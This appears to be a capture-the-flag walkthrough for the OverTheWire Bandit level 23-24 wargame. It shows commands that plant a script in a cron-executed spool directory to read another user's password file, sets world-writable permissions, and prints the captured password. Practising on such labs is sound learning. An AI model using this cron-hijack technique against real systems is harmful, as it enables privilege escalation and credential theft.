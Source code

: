---------------------------------------
ssh -p 2220 bandit23@bandit.labs.overthewire.org 

(because the cronjob runs all files inside /var/spool/bandit24/foo every minute, you need to cp a script from a tmp directory that prints out the pw from bandit24 into your tmp directory, set all permissoins before the cp, because it will run and delete whatever is in there every minute)

cd /etc/cron.d 
cat /usr/bin/cronjob_bandit24.sh

mktemp -d
cd (into the new temp directory)
touch bandit24_pass.sh 
nano bandit24_pass.sh 
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.GF4kvY3VJ1/password.txt

chmod 777 password.txt
chmod 777 bandit24_pass.sh

cp bandit24_pass.sh /var/spool/bandit24/foo

bandit23@bandit:/tmp/tmp.GF4kvY3VJ1$ ls -l
total 12
-rwxrwxrwx 1 bandit23 bandit23 77 May 15 19:42 bandit24_pass.sh
-rwxrwxrwx 1 bandit23 bandit23 33 May 15 19:45 password.txt
bandit23@bandit:/tmp/tmp.GF4kvY3VJ1$ cat password.txt 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar



